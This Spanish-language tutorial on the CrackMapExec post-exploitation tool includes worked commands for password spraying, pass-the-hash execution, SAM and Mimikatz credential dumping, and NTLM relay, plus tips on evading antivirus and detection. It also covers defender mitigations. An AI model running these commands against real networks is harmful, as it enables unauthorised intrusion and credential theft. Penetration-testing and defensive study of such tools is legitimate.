


# CrackMapExec (CME)

## Introducción

> [!info] ¿Qué es CrackMapExec?
> **CrackMapExec** (CME) es una herramienta post-explotación suiza que ayuda a automatizar la evaluación de seguridad en redes Windows/Active Directory. Combina varias técnicas ofensivas en una sola herramienta, permitiendo tanto el reconocimiento como la explotación de vulnerabilidades comunes.

CrackMapExec fue diseñado para:
- **Evaluar** la seguridad de entornos Windows/AD
- **Enumerar** información de sistemas y dominios
- **Mover** lateralmente dentro de una red 
- **Ejecutar** comandos remotamente en sistemas comprometidos

Esta herramienta es especialmente útil en contextos de:
- Pruebas de penetración en entornos corporativos
- Auditorías de seguridad en Active Directory
- Red Team Operations
- Evaluaciones de postura de seguridad

> [!warning] Advertencia Legal
> CrackMapExec es una herramienta potente que debe utilizarse únicamente en entornos autorizados. Su uso sin permiso puede violar leyes de acceso no autorizado a sistemas informáticos.

---

## Instalación

### Método 1: Instalación con pip
```bash
python3 -m pip install pipx
pipx install crackmapexec
```

### Método 2: Desde repositorio (recomendado para desarrollo)
```bash
git clone https://github.com/byt3bl33d3r/CrackMapExec.git
cd CrackMapExec
poetry install
```

### Método 3: Usando Docker
```bash
docker pull byt3bl33d3r/crackmapexec
docker run -it --name crackmapexec --entrypoint=/bin/bash byt3bl33d3r/crackmapexec
```

> [!tip] Verificación de Instalación
> Después de la instalación, ejecuta `crackmapexec -h` o `cme -h` para verificar que la instalación fue exitosa y ver las opciones disponibles.

---

## Sintaxis Básica

La estructura general de comandos de CrackMapExec es:

```
crackmapexec <protocolo> <target> [opciones]
```

### Protocolos Soportados:

- **smb**: Para interactuar con recursos compartidos SMB y sistemas Windows
- **winrm**: Para conexiones Windows Remote Management
- **ssh**: Para conexiones SSH
- **mssql**: Para conexiones a bases de datos SQL Server
- **ldap**: Para consultas LDAP a Active Directory

### Opciones Principales:

| Parámetro | Descripción | Ejemplo |
|-----------|-------------|---------|
| `-u, --username` | Usuario o archivo de usuarios | `--username 'Administrator'` |
| `-p, --password` | Contraseña o archivo de contraseñas | `--password 'P@ssw0rd'` |
| `-H, --hash` | Hash NTLM para autenticación Pass-the-Hash | `--hash 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0'` |
| `-d, --domain` | Nombre de dominio para autenticación | `--domain 'CONTOSO'` |
| `-M, --module` | Módulo a ejecutar | `--module mimikatz` |
| `-L, --list-modules` | Lista los módulos disponibles | `--list-modules` |
| `-o, --options` | Opciones para el módulo | `--options` |
| `-x, --execute` | Comando a ejecutar en los objetivos | `--execute 'whoami'` |
| `--local-auth` | Usa autenticación local en lugar de de dominio | `--local-auth` |
| `--sam` | Vuelca las tablas SAM | `--sam` |
| `--shares` | Lista los recursos compartidos disponibles | `--shares` |
| `-v, --verbose` | Aumenta el nivel de detalle de la salida | `-v` |

---

## Flujo de Trabajo Típico



---

## Ejemplos Prácticos

### Ejemplo 1: Enumeración de Hosts Windows en la Red

```bash
# Escanea toda la subred en busca de hosts SMB disponibles
crackmapexec smb 192.168.1.0/24
```

> [!example] Explicación
> Este comando escanea toda la subred 192.168.1.0/24 en busca de servidores SMB activos. Para cada host encontrado, muestra información como nombre del host, dominio, versión de sistema operativo y si tiene SMB firmado requerido. Es una excelente manera de identificar rápidamente todos los sistemas Windows en una red.

### Ejemplo 2: Prueba de Credenciales en Múltiples Hosts

```bash
# Prueba una lista de usuarios y contraseñas contra múltiples hosts
crackmapexec smb 192.168.1.0/24 -u users.txt -p passwords.txt --continue-on-success
```

> [!example] Explicación
> Este comando realiza un ataque de fuerza bruta/diccionario contra todos los hosts SMB en la subred. Lee usuarios de "users.txt" y contraseñas de "passwords.txt", probando cada combinación. El flag `--continue-on-success` hace que siga intentando todas las combinaciones incluso después de encontrar credenciales válidas, lo que es útil para descubrir múltiples cuentas comprometidas.

### Ejemplo 3: Ataque Pass-the-Hash y Ejecución de Comandos

```bash
# Usa un hash NTLM para autenticarse y ejecutar un comando
crackmapexec smb 192.168.1.100 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' -x 'whoami /all'
```

> [!example] Explicación
> Este comando utiliza la técnica "Pass-the-Hash" para autenticarse como el usuario Administrator sin conocer su contraseña en texto claro, solo usando el hash NTLM. Si la autenticación es exitosa, ejecuta el comando `whoami /all` en el sistema remoto, mostrando información detallada sobre el contexto de seguridad del usuario actual.

### Ejemplo 4: Extraer Hashes de Contraseñas

```bash
# Extraer hashes de la base de datos SAM local
crackmapexec smb 192.168.1.100 -u Administrator -p 'Password123' --sam
```

> [!example] Explicación
> Una vez que tenemos credenciales válidas de administrador, podemos extraer los hashes de contraseña almacenados en la base de datos SAM del sistema. Estos hashes pueden usarse posteriormente para ataques de Pass-the-Hash contra otros sistemas o para intentar crackearlos offline y obtener las contraseñas en texto claro.

### Ejemplo 5: Enumeración de Dominio con LDAP

```bash
# Enumerar usuarios de dominio a través de LDAP
crackmapexec ldap 192.168.1.10 -u 'usuario' -p 'contraseña' -M userhunter
```

> [!example] Explicación
> Este comando usa el protocolo LDAP para conectarse al controlador de dominio y ejecuta el módulo "userhunter" que busca usuarios específicos (como administradores) en el dominio. Es extremadamente útil para identificar cuentas de alto valor que podrían ser objetivos prioritarios en un ataque.

---

## Técnicas Avanzadas

### Movimiento Lateral con CrackMapExec

```bash
# Ejecución a través de WinRM
crackmapexec winrm 192.168.1.0/24 -u administrator -H <hash> -x "powershell -enc <base64_encoded_command>"
```

> [!tip] Comandos Codificados
> El uso de comandos codificados en Base64 puede ayudar a evadir algunos controles de seguridad:
> ```powershell
> $Command = "whoami; hostname; Get-NetIPAddress"
> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
> $EncodedCommand = [Convert]::ToBase64String($Bytes)
> Write-Host $EncodedCommand
> ```

### Extracción de Credenciales con Mimikatz

```bash
# Usar el módulo Mimikatz para extraer credenciales
crackmapexec smb 192.168.1.100 -u Administrator -p 'Password123' -M mimikatz -o COMMAND='sekurlsa::logonpasswords'
```

> [!warning] Detección por Antivirus
> El uso de Mimikatz suele ser detectado por soluciones antivirus modernas. En entornos reales, puede ser necesario usar técnicas de evasión adicionales.

### Enumeración de Grupos de Seguridad

```bash
# Enumerar miembros de grupos privilegiados
crackmapexec ldap 192.168.1.10 -u 'usuario' -p 'contraseña' -M group-members -o GROUP="Domain Admins"
```

---

## Explotación de Vulnerabilidades Específicas

### Abuso de Protocolo NTLM

```bash
# Relaying de hashes NTLM (requiere Impacket)
# En una terminal:
impacket-ntlmrelayx -t 192.168.1.100 -smb2support -c "powershell -enc <comando>"

# En otra terminal:
crackmapexec smb 192.168.1.50 -u 'usuario' -p 'contraseña' -M spider_plus
```

> [!info] NTLM Relay
> Esta técnica aprovecha debilidades en la implementación del protocolo NTLM para "redirigir" intentos de autenticación legítimos a otros sistemas objetivo.

### Abuso de GPP (Group Policy Preferences)

```bash
# Buscar contraseñas en GPP
crackmapexec smb 192.168.1.10 -u 'usuario' -p 'contraseña' -M gpp_password
```

---

## Buenas Prácticas y Tips

> [!tip] Consejos para optimizar el uso de CrackMapExec
> 
> 1. **Mantén logs detallados**: Usa la opción `-v` para obtener más información y guarda los resultados.
>    ```bash
>    crackmapexec smb 192.168.1.0/24 -u user -p pass -v | tee cme_results.txt
>    ```
> 
> 2. **Evita bloquear cuentas**: Usa la opción `--no-bruteforce` para evitar intentos repetidos que puedan bloquear cuentas.
> 
> 3. **Utiliza archivos para credenciales largas**: En lugar de escribir largas listas de credenciales en la línea de comandos.
> 
> 4. **Crea archivos de configuración**: Usa el archivo ~/.cme/cme.conf para configuraciones personalizadas.
> 
> 5. **Implementa pausas entre intentos**: Con `--delay` para reducir la probabilidad de detección.
>    ```bash
>    crackmapexec smb 192.168.1.0/24 -u users.txt -p pass.txt --delay 5
>    ```

> [!warning] Errores comunes a evitar
> 
> 6. **No especificar el dominio correctamente**: Para autenticación de dominio, asegúrate de especificar el nombre de dominio correcto con `-d`.
> 
> 7. **Formato incorrecto de hash**: Para Pass-the-Hash, asegúrate de usar el formato correcto `LM:NTLM`.
> 
> 8. **Ignorar los firewalls**: Considera que los firewalls pueden bloquear ciertos puertos/protocolos.
> 
> 9. **No manejar adecuadamente las credenciales**: Evita guardar credenciales en archivos de texto sin cifrar.
> 
> 10. **Subestimar la detección**: Las herramientas de seguridad modernas pueden detectar el uso de CrackMapExec; considera técnicas de evasión cuando sea necesario.

---

## Integración con Otras Herramientas

CrackMapExec funciona especialmente bien como parte de un flujo de trabajo que integra múltiples herramientas:



### Ejemplos de Integración:

1. **Nmap + CrackMapExec**:
   ```bash
   # Primero identificar hosts con Nmap
   nmap -p 445 192.168.1.0/24 -oG smb_hosts.txt
   # Luego usar grep para extraer IPs y pasarlas a CME
   cat smb_hosts.txt | grep "open" | cut -d " " -f 2 > targets.txt
   crackmapexec smb targets.txt --shares
   ```

2. **CrackMapExec + Hashcat**:
   ```bash
   # Extraer hashes con CME
   crackmapexec smb 192.168.1.100 -u admin -p pass --sam > hashes.txt
   # Crackear hashes con Hashcat
   hashcat -m 1000 hashes.txt rockyou.txt
   ```

3. **CrackMapExec + Evil-WinRM**:
   ```bash
   # Identificar hosts con WinRM habilitado
   crackmapexec winrm 192.168.1.0/24
   # Conectarse con Evil-WinRM
   evil-winrm -i 192.168.1.100 -u administrator -p 'Password123'
   ```

---

## Detección y Mitigación

### Cómo se detecta el uso de CrackMapExec:

1. **Múltiples intentos de autenticación fallidos** desde una misma IP
2. **Numerosas conexiones SMB/WinRM/LDAP** en un corto período
3. **Ejecución remota de comandos sospechosos**
4. **Consultas LDAP anómalas** o extensivas
5. **Extracción de hashes SAM/LSASS**

### Medidas de mitigación para administradores:

| Medida | Descripción | Implementación |
|--------|-------------|----------------|
| **SMB Firmado** | Requiere firma en comunicaciones SMB | Política de grupo |
| **Autenticación NTLMv2** | Deshabilitar versiones antiguas de NTLM | Política de grupo |
| **Credenciales únicas** | Evitar reutilización de contraseñas | Gestión de contraseñas |
| **Least Privilege** | Limitar privilegios administrativos | Diseño de AD |
| **EDR/SIEM** | Detección y respuesta a endpoints | Soluciones comerciales |
| **Segmentación de red** | Limitar comunicación entre segmentos | Firewalls/VLANs |
| **MFA** | Autenticación multifactor | Servicios compatibles |

> [!info] Blue Team Tip
> Los equipos de defensa pueden usar herramientas como "PurpleSharp" para simular los ataques de CrackMapExec y probar sus capacidades de detección antes de un ataque real.

---

## Referencias y Recursos Adicionales

> [!info] Enlaces Oficiales
> - [Repositorio GitHub de CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
> - [Documentación oficial](https://mpgn.gitbook.io/crackmapexec/)
> - [Wiki de CrackMapExec](https://wiki.porchetta.industries/)

> [!tip] Recursos de Aprendizaje
> - [Pentester Academy - Active Directory Labs](https://www.pentesteracademy.com/activedirectorylab)
> - [TryHackMe - Post-Exploitation Basics](https://tryhackme.com/room/postexploit)
> - [HackTheBox - Active Directory tracks](https://www.hackthebox.com/)

---

## Conclusión

CrackMapExec es una herramienta extremadamente potente para pruebas de penetración en entornos Windows y Active Directory. Su capacidad para combinar múltiples técnicas en una sola herramienta la hace esencial para:

1. **Evaluar rápidamente** la seguridad de una red Windows
2. **Identificar debilidades** en la configuración de Active Directory
3. **Facilitar el movimiento lateral** una vez que se ha ganado acceso inicial
4. **Extraer credenciales** para escalar privilegios

Sin embargo, con gran poder viene gran responsabilidad. CrackMapExec debe usarse éticamente, con los permisos adecuados y dentro del alcance legal de las pruebas de penetración.

El conocimiento de herramientas como CrackMapExec es valioso tanto para equipos ofensivos (para identificar vulnerabilidades) como para equipos defensivos (para entender los métodos de ataque y mejorar sus defensas).